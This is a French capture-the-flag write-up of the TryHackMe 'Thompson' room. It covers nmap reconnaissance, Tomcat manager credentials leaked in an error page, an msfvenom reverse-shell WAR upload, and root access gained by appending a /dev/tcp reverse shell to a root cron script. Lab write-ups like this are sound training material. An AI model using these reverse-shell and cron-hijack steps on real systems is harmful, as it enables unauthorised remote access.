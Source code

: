 ```yaml
---
title: Thompson (Guatemala CTF)
tags: [TryHackMe, Facile, Tomcat]
style: border
color: thm
comments: false
description: Exploitation d'un serveur Apache Tomcat
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtthompson>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Visite du site](#2-visite-du-site)
* [3. Accès au serveur](#3-accès-au-serveur)
* [4. Flag utilisateur](#4-flag-utilisateur)
* [5. Elevation de privilèges](#5-elevation-de-privilèges)

---

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.216.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 15:39 CEST
Nmap scan report for 10.10.216.88
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

L'analyse par le scanner Nmap nous montre que la machine héberge un serveur SSH sur le port 22 et un serveur Apache Tomcat sur le port 8080.

Commençons donc par analyser le site.

## 2. Visite du site

Nous arrivons sur la page par défaut d'un serveur Apache.

{% include elements/figure.html image="/images/THM/20240830/VirtualBox_Kali Hack_30_08_2024_15_47_30.png" caption="Première connexion" %}

La tentative de connexion aux outils d'administration en utilisant des identifiants potentiels comme admin/admin ou tomcat/tomcat n'a pas fonctionné.

Lorsque nous annulons finalement l'authentification, nous arrivons sur une page d'erreur particulièrement verbeuse donnant des identifiants.

{% include elements/figure.html image="/images/THM/20240830/Capture_ecran_2024-08-30_401.png" caption="Identifiants dévoilés dans la page d'erreur" %}

## 3. Accès au serveur

En navigant, nous arrivons sur une page permettant de déployer des fichiers au format WAR (*Web Application Archive*)

En faisant une recherche sur la dépôt Github [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), nous pouvons trouver une commande permettant de créer un fichier WAR malicieux permettant d'obtenir un *reverse shell* :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

Après avoir créé la charge avec les données correspondant à notre machine et avoir mis le port (le même qu'indiqué dans `LPORT`) de notre machine en écoute avec Netcat, nous pouvons téléverser le fichier `reverse.war`, puis cliquer sur le nouveau lien "reverse" qui vient d'apparaître sur l'interface.

Nous sommes à présent connecter au serveur.

```bash
nc -lvnp 9000           
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 55446
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## 4. Flag utilisateur

Améliorons le shell obtenu pour faciliter la navigation :

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

L'utilisateur dont nous devons trouver les identifiants est Jack.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 jack
```

Les 3 derniers caractères `r-x` indique que n'importe quel utilisateur peut lire ou se déplacer dans le répertoire de l'utilisateur. Mieux encore, le flag utilisateur est également lisible. Tout comme un script `id.sh` qui est également exécutable par tout le monde.

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```

```bash
cat user.txt
39400c[...expurgé...]f181bf
```

## 5. Elevation de privilèges

L'analyse des autres fichiers présents dans le dossier personnel de Jack ne donne pas beaucoup d'informations. Le script permet d'écrire les informations d'un utilisateur dans le fichier test.txt

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt

cat id.sh
#!/bin/bash
id > test.txt

cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

 Cependant, en relançant la commande `ls -hl` un peu plus tard, nous observons que le fichier `test.txt` a changé d'horodatage il est donc plus que probable qu'un cronjob tourne sur la machine pour lancer le script id.sh :

```bash
-rw-r--r-- 1 root root 39 Aug 30 07:34 test.txt
```

En analysant le fichier `/etc/crontab` nous pouvons constater qu'il y a bien un job tournant toutes les minutes, en tant que l'utilisateur root.

```bash
* * * * *   root    cd /home/jack && bash id.sh
```

En utilisant le site [Revshells](https://www.revshells.com/) nous pouvons créer une commande à ajouter au fichier `id.sh` pour obtenir un *reverse shell* non plus en tant que "tomcat" mais cette fois "root"

```bash
echo 'sh -i >& /dev/tcp/10.0.0.1/9001 0>&1' >> id.sh
```

Mettons maintenant Netcat en attente sur le port 9001, et attendons le passage de la tâche programmée.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 44840
sh: 0: can't access tty; job control turned off
id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons obtenu les droits root sur la machine, il ne reste plus qu'à lire le fichier `/root/root.txt`

```bash
cat root.txt
d89d53[...expurgé...]e7ca3a
```

